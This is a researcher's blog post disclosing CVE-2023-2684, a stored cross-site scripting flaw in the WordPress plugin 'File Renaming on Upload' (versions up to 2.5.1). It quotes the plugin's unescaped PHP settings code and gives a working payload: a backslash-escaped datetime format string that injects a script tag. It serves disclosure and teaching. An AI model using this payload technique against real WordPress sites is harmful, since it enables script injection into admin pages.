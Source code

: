 ```yaml
---
template: overrides/blog.html
title: CVE-2023-2684
description: >
  The CVE-2023-2684 vulnerability is a Stored Cross-Site Scripting (XSS) issue that exists within the plugin's setting panel. This plugin does not sanitise and escape datetime format settings, which could allow high privilege users such as admin to perform Stored Cross-Site Scripting attacks even when the unfiltered_html capability is disallowed.
hide:
  - feedback
---
```


# File Renaming on Upload <= 2.5.1 - Authenticated (Admin+) Stored Cross-Site Scripting

<aside class="mdx-author" markdown>
![@squidfunk][@squidfunk avatar]

<span>**Hao Huynh** · @h40huynh</span>
<span>
:octicons-calendar-24: June 1, 2023 ·
:octicons-clock-24: 5 min read
</span>

</aside>

[built-in search plugin]: ../../setup/setting-up-site-search.md#built-in-search-plugin
[@squidfunk avatar]: ../../assets/author/haoicon.png
[insiders-4.14.0]: ../../insiders/changelog.md#4.14.0

---

## Introdution

During my search for a plugin with the functionality to modify file names after uploading, I came across a particular plugin that seemed promising. As a security enthusiast, I decided to delve deeper into its code and settings to ensure it was robust and free from vulnerabilities.

## About my CVE

The CVE-2023-2684 vulnerability is a Stored Cross-Site Scripting (XSS) issue that exists within the plugin's setting panel. This plugin does not sanitise and escape datetime format settings, which could allow high privilege users such as admin to perform Stored Cross-Site Scripting attacks even when the unfiltered_html capability is disallowed.

**Affected wordpress plugin**: https://wpscan.com/plugin/file-renaming-on-upload

**CVE reference**: https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/file-renaming-on-upload/file-renaming-on-upload-251-authenticated-admin-stored-cross-site-scripting

## Vulnerability Analysis

In the plugin's settings panel, there is a datetime setting rule for renaming filenames, which is accompanied by an example showing the output time.

![Datetime setting](cve-2023-2684/setting.png)

Without diving into knowledge of programming WordPress plugins and library usage, we can still exploit this vulnerability by carefully examining the following code snippet:

```php
<?php
// class-datetime-option.php
public function add_fields( $fields, $section ) {
    $datetime = \DateTime::createFromFormat( 'U.u', number_format( microtime( true ), 6, '.', '' ) );
    $format   = $datetime->format( $this->get_option( $this->option_datetime_format, 'Y-m-d_H-i-s_u' ) );
    $new_options = array(
        array(
            'name'           => $this->option_id,
            'label'          => __( 'Datetime', 'file-renaming-on-upload' ),
            'desc'           => __( 'Enables Datetime rule', 'file-renaming-on-upload' ) . ' - ' . '<strong>{' . $this->option_id . '}</strong>',
            'desc_secondary' => __( "Gets the current date and time.", 'file-renaming-on-upload' ),
            'type'           => 'checkbox',
            'default'        => 'no',
        ),
        array(
            'name'        => $this->option_datetime_format,
            'desc'        => __( 'Datetime format ', 'file-renaming-on-upload' ) . sprintf( __( 'You can see more formats <a target="_blank" href="%s">here</a>', 'file-renaming-on-upload' ), 'http://php.net/manual/function.date.php' ) . '<br />' . sprintf( __( 'Result: <b>%s</b>', 'file-renaming-on-upload' ), $format ),
            'type'        => 'text',
            'default'     => 'Y-m-d_H-i-s_u',
            'placeholder' => 'Y-m-d_H-i-s_u',
        ),
        array(
            'name' => 'datetime_separator',
            'type' => 'separator',
        ),
    );

    return parent::add_fields( array_merge( $fields, $new_options ), $section );
}
```

Let's examine the HTML tags used in the previous string of options: `sprintf( __( 'Result: <b>%s</b>', 'file-renaming-on-upload' ), $format )`. We should consider that if the result of the datetime includes HTML tags, it could potentially introduce an XSS vulnerability.

To exploit this vulnerability, all we need to do is find a way to manipulate the datetime function to generate the desired HTML syntax. According to the instructions, we can use the formatting provided in this PHP function: https://www.php.net/manual/en/function.date.php.

```php
<?php
// Assuming today is March 10th, 2001, 5:16:18 pm, and that we are in the
// Mountain Standard Time (MST) Time Zone

$today = date("F j, Y, g:i a");                 // March 10, 2001, 5:16 pm
$today = date("m.d.y");                         // 03.10.01
$today = date("j, n, Y");                       // 10, 3, 2001
$today = date("Ymd");                           // 20010310
$today = date('h-i-s, j-m-y, it is w Day');     // 05-16-18, 10-03-01, 1631 1618 6 Satpm01
$today = date('\i\t \i\s \t\h\e jS \d\a\y.');   // it is the 10th day.
$today = date("D M j G:i:s T Y");               // Sat Mar 10 17:16:18 MST 2001
$today = date('H:m:s \m \i\s\ \m\o\n\t\h');     // 17:03:18 m is month
$today = date("H:i:s");                         // 17:16:18
$today = date("Y-m-d H:i:s");                   // 2001-03-10 17:16:18 (the MySQL DATETIME format)
?>
```

To keep the characters intact, we need to append a backslash (\\) before each one. Hence, the payload for executing an XSS attack is as follows:

```
Y-m-d_H-i-s_u\<\s\c\r\i\p\t\>\a\l\e\r\t\(\d\o\c\u\m\e\n\t\.\d\o\m\a\i\n\)\<\/\s\c\r\i\p\t\>
```

![Payload execution](cve-2023-2684/xss.png)

That concludes the entire process of how I discovered this CVE. Thank you for taking the time to read through it.

Timeline

```


Publicly Published
2023-05-25 (about 22 days ago)
```
